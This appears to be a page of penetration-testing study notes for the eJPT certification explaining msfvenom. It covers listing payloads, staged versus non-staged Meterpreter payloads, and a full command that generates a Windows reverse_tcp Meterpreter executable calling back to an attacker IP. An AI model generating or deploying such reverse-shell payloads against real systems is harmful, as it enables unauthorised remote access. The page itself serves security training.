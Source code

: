 > ❗ ***Advanced modern antivirus solutions detects and blocks this type of payloads very easily.***

### [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> - **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

- List available payloads

```bash
msfvenom --list payloads
```

- When generating a payload the exact name of the payload must be specified
  - target operating system
  - target O.S. architecture (x64, x86 ...)
  - payload type
  - protocol used to connect back (depends on requirements)

![](.gitbook/assets/image-20230415190726950.png)

**`e.g.`** of **Staged payload**

- `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

- `windows/x64/meterpreter_reverse_https`

![](.gitbook/assets/image-20230415191239575.png)

- Generate a Windows payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows_Payloads/payloadx86.exe

# LHOST = Attacker IP address
```
